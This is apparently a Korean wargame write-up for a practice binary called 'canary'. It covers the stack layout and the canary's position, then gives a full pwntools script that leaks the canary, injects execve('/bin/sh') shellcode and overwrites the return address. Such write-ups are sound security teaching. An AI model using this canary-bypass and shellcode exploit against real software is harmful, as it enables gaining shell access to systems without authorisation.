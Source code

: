 > **위 코드는 실제 소스코드를 보지 않고, 리버싱 분석만으로 추정한 C 코드입니다.**

## 결론

### 구조 분석

- 현재 **스택 보호용 Canary** 활성화 중 → (`__stack_chk_fail` 존재 확인됨)
- `buf`은 `0x60` → **96바이트 크기의 버퍼.**
- 이 `0x60(96 바이트)` 값은 **Padding + Canary + Saved RBP** 값을 포함 한 위치
- **Canary** 위치는 `[rbp - 8]`의 주소에 위치 → 즉, **buf[88]부터 canary가 시작**됨.
- **Canary** 는 **맨 앞 바이트가 널바이트 (`\x00`)**로 고정됨. → 나머지 7바이트만 유출 가능.

---

### 파이썬 스크립트

```python
from pwn import *

p = process('./canary')

p.recvuntil(b'buf: ')
buf = int(p.recvline(), 16)

offset = 88

padding = b'A' * (offset + 1)
p.sendafter(b'Input: ', padding)
p.recvuntil(padding)
canary = u64(b'\x00' + p.recvn(7))

shellcode = (
    b'\x48\x31\xc0'                              # xor    rax, rax              ; rax = 0 (clear syscall number)
    b'\x50'                                      # push   rax                   ; push NULL (for string termination)
    b'\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68'  # mov rbx, 0x68732f6e69622f2f  ; "//bin/sh"
    b'\x53'                                      # push   rbx                   ; push "//bin/sh" string onto stack
    b'\x48\x89\xe7'                              # mov    rdi, rsp              ; rdi = pointer to "/bin/sh"
    b'\x48\x31\xf6'                              # xor    rsi, rsi              ; rsi = 0 (argv = NULL)
    b'\x48\x31\xd2'                              # xor    rdx, rdx              ; rdx = 0 (envp = NULL)
    b'\xb0\x38'                                  # mov    al, 56                ; rax = 56
    b'\x48\xff\xc0'                              # inc    rax                   ; rax = 57
    b'\x48\xff\xc0'                              # inc    rax                   ; rax = 58
    b'\x48\xff\xc0'                              # inc    rax                   ; rax = 59 (execve syscall number)
    b'\x0f\x05'                                  # syscall                      ; execve("/bin/sh", NULL, NULL)
)

padding2 = b'B' * (offset - len(shellcode))

payload = shellcode
payload += padding2
payload += p64(canary) 
payload += b'B' * 8 
payload += p64(buf)

p.sendline(payload)

```